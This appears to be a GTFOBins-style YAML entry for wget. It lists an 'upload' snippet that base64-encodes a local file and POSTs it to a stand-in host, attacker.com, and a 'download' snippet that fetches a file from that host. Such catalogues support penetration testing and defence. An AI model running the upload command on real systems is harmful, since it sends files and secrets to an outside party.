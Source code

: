 ```yaml
---
functions:
  upload:
    - description: Send base64-encoded local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        wget --post-data="d=$(base64 $LFILE | tr -d '\n')" $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        wget $URL -O $LFILE
---
```

